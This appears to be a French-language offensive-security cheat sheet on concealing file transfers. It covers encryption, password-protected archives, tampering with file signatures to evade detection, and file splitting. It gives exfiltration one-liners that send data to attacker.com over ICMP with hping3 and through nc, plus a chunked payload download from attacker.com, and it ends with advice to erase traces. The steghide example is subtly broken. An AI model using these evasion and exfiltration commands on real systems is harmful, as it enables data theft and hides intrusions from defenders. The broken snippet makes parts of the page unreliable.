 # Protection des Transferts de Fichiers

## Chiffrement de Fichiers

Le chiffrement protège la confidentialité des données pendant le transfert et empêche la détection de contenu malveillant.

### Windows (PowerShell)

```powershell
# Utilisation de Invoke-AESEncryption.ps1
# Importer le module
Import-Module .\Invoke-AESEncryption.ps1

# Chiffrer un fichier
Invoke-AESEncryption -Mode Encrypt -Key "P@ssw0rd" -Path C:\file.exe

# Déchiffrer un fichier
Invoke-AESEncryption -Mode Decrypt -Key "P@ssw0rd" -Path C:\file.exe.aes
```

### Linux (OpenSSL)

```bash
# Chiffrement avec AES-256
openssl enc -aes256 -iter 100000 -pbkdf2 -in file.bin -out file.bin.enc -k "P@ssw0rd"

# Déchiffrement
openssl enc -d -aes256 -iter 100000 -pbkdf2 -in file.bin.enc -out file.bin -k "P@ssw0rd"
```

## Compression avec Protection par Mot de Passe

### Windows

```powershell
# PowerShell avec 7-Zip
& 'C:\Program Files\7-Zip\7z.exe' a -pP@ssw0rd -mx=9 archive.7z file.exe

# Extraction
& 'C:\Program Files\7-Zip\7z.exe' x -pP@ssw0rd archive.7z
```

### Linux

```bash
# Création d'une archive chiffrée
7z a -pP@ssw0rd -mx=9 archive.7z file.bin

# Alternative avec zip
zip -e -P P@ssw0rd archive.zip file.bin

# Extraction
7z x -pP@ssw0rd archive.7z
```

## Obfuscation des Fichiers

### Modifier les Signatures de Fichiers

```bash
# Ajouter des données en fin de fichier
echo "PADDING_DATA" >> file.exe

# Modifier les en-têtes pour éviter la détection
dd if=/dev/urandom bs=1 count=10 of=random_bytes
cat random_bytes file.exe > modified_file.exe
```

### Segmentation de Fichiers

```bash
# Segmenter un fichier (Linux)
split -b 1M file.bin file.bin.part

# Recombiner les parties
cat file.bin.part* > file.bin

# Segmenter un fichier (Windows PowerShell)
$file = [System.IO.File]::ReadAllBytes("file.exe")
$chunkSize = 1MB
for($i=0; $i -lt $file.Length; $i+=$chunkSize) {
    $chunk = $file[$i..($i+$chunkSize-1)]
    [System.IO.File]::WriteAllBytes("file.part$($i/($chunkSize))", $chunk)
}

# Recombiner (Windows)
$parts = Get-ChildItem -Filter "file.part*" | Sort-Object Name
$output = New-Object -TypeName byte[] -ArgumentList (($parts | Measure-Object -Property Length -Sum).Sum)
$position = 0
foreach($part in $parts) {
    $bytes = [System.IO.File]::ReadAllBytes($part.FullName)
    [System.Buffer]::BlockCopy($bytes, 0, $output, $position, $bytes.Length)
    $position += $bytes.Length
}
[System.IO.File]::WriteAllBytes("file.exe", $output)
```

## Transferts Non Détectables

### Utilisation de Protocoles Alternatifs

```bash
# ICMP (nécessite des outils spécifiques)
# Sur la machine attaquante
sudo hping3 --listen signature --safe

# Sur la machine cible
cat file.bin | xxd -p -c 4 | while read line; do sudo hping3 -c 1 -E <(echo "signature$line") attacker.com; done
```

### Transferts Temporisés

Ralentir les transferts pour éviter la détection par les systèmes basés sur le volume.

```bash
# Linux - envoi lent
cat file.bin | while read -n1 char; do echo -n "$char"; sleep 0.1; done | nc attacker.com 8000

# PowerShell - téléchargement fragmenté
$client = New-Object System.Net.WebClient
$url = "http://attacker.com/file.exe"
$output = "C:\file.exe"
$fileSize = (Invoke-WebRequest -Uri $url -Method Head).Headers.'Content-Length'
$bufferSize = 1024
for($i=0; $i -lt $fileSize; $i+=$bufferSize) {
    $client.Headers.Add("Range", "bytes=$i-$($i+$bufferSize-1)")
    $bytes = $client.DownloadData($url)
    [System.IO.File]::WriteAllBytes($output, $bytes, $i)
    Start-Sleep -Milliseconds 100
}
```

## Techniques de Steganographie

Cacher des données dans d'autres fichiers (images, audio, etc.).

```bash
# Linux - cacher des données dans une image
cat file.bin > image.jpg
steghide embed -cf image.jpg -ef file.bin -p "P@ssw0rd"

# Extraction
steghide extract -sf image.jpg -p "P@ssw0rd"
```

## Points Importants

- Le chiffrement est crucial pour les données sensibles
- La compression réduit le temps de transfert et peut aider à dissimuler le contenu
- L'obfuscation peut contourner certaines détections basées sur les signatures
- Les transferts temporisés peuvent éviter les alertes basées sur le volume de données
- Combiner plusieurs techniques pour une sécurité maximale
- Toujours nettoyer les traces après le transfert